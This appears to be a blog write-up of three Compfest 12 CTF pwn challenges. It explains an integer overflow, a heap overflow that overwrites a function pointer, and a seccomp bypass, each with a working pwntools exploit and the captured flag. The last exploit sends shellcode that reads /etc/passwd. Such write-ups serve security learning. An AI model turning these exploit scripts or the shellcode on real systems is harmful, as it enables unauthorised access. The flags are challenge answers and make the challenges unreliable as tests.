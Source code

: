 ```yaml
---           
layout: post
title:  "Compfest 12 2020 CTF quals"
date:   2020-09-08
categories: ctf
description: Writeup Compfest 12 2020 CTF quals 
tags: ctf-writeup              
---
```


## Gambling Problem 2

### Description

dek depe menemukan service judi onlen dari forum *redacted*. Karena service judi online ini baru buka, pengguna diberikan uang untuk memulai karir perjudian. Setelah diberi bin file lewat orang dalem, dek depe menyadari ternyata terdapat bug mematikan dalam program tersebut. Bantulah dek depe memanfaatkan exploit tersebut!

nc 128.199.157.172 25880

### Solve

to solve this challenge we need to have money at least 0xdeadbeef or 3735928559 in decimal. we can 
get more money on `gameTime()` function.

<img src="/images/compfest2020/pseudo.png" />

to get more money, we have to place our bet on `gameTime()` function if we can guess a random number
we can get 5 times from our stake, there is also format string bug on input bet

<img src="/images/compfest2020/fmtstr.png" />

but I prefer to use another bug, which can easy to exploit lol.

<img src="/images/compfest2020/otherbug.png" />

there is an integer overflow in `-5 * taruhan` we can still increase our money even we guess the wrong number.
my exploit:

{% highlight python %}

from pwn import *
r = remote('128.199.157.172',25880)

r.sendlineafter(":","1")
r.sendlineafter(":",'1')
r.sendlineafter(":",str(0xffffff))
r.sendlineafter(":",'1')
r.sendlineafter(":",'0')
r.sendlineafter(":",'2')
r.sendlineafter(":",'1')
# r.sendlineafter(":",str(0xbeefbeef))
r.interactive()

{% endhighlight %}

<img src="/images/compfest2020/flag-1.png" />

FLAG: COMPFEST12{laptop_pembuat_soalnya_BSOD_so_this_is_Zafirr_again_lol_39cbc5}

## Binary Exploitation is Ez

## Description

Take a break, here's an easy problem

nc 128.199.157.172 23170

## Solve

this is an easy challenge, there is buffer overflow in `edit_mem()`.

<img src="/images/compfest2020/bug1.png" />

and `my_print()` is stored on the heap that close to our input

<img src="/images/compfest2020/bug2.png" />

in `print_meme()` function, `my_print()` is being called to print our
content from heap

<img src="/images/compfest2020/functionbug.png" />

so, we can use buffer overflow in `edit_mem()` to overwrite `my_print()` with `EZ_WIN()` function
and then call `print_mem()`, so that we can get a shell

my exploit:

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/compfest2020/binex/binex-is-easy/ez")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def newMeme(size,con):
    r.sendlineafter(":",'1')
    r.sendlineafter(':',str(size))
    r.sendlineafter(':',str(con))

def editMeme(idx,con):
    r.sendlineafter(":",'2')
    r.sendlineafter(':',str(idx))
    r.sendlineafter(':',str(con))

def printMeme(idx):
    r.sendlineafter(":",'3')
    r.sendlineafter(':',str(idx))

def exploit(r):
    # attach(r)
    win = 0x00000000004014a0
    p = ("A" * 8) * 3
    p += p64(0x21)
    p += p64(win)
    newMeme(10,"BBBBBBBB")
    newMeme(10,"C"*8)
    newMeme(10,"D"*8)
    editMeme(0,p)
    newMeme(10,"IIIIIIII")

    r.sendline("3")
    r.sendline("1")
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("128.199.157.172", 23170)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

<img src="/images/compfest2020/flag3.png" />

FLAG: COMPFEST12{C_i_told_u_its_ez_loooooooool_257505}

## Sandbox King

### Description

You have to get a shell. The seccomp is easy to bypass right?

nc 128.199.104.41 25171

### Solve

according to the pseudocode 

<img src="/images/compfest2020/pseudo0.png" />

we can just send a shellcode to get a shell. 

my exploit:

{% highlight python %}

from pwn import *

r = remote("128.199.104.41",25171)

sh = "\xeb\x2f\x5f\x6a\x02\x58\x48\x31\xf6\x0f\x05\x66\x81\xec\xef\x0f\x48\x8d\x34\x24\x48\x97\x48\x31\xd2\x66\xba\xef\x0f\x48\x31\xc0\x0f\x05\x6a\x01\x5f\x48\x92\x6a\x01\x58\x0f\x05\x6a\x3c\x58\x0f\x05\xe8\xcc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
r.sendline(sh)
r.interactive()

{% endhighlight %}

<img src="/images/compfest2020/flag4.png" />

FLAG: COMPFEST12{C0nGr4TTSSS_U_r_D_SssssssssAnd60X_K111ng9g99_1c7dbf}

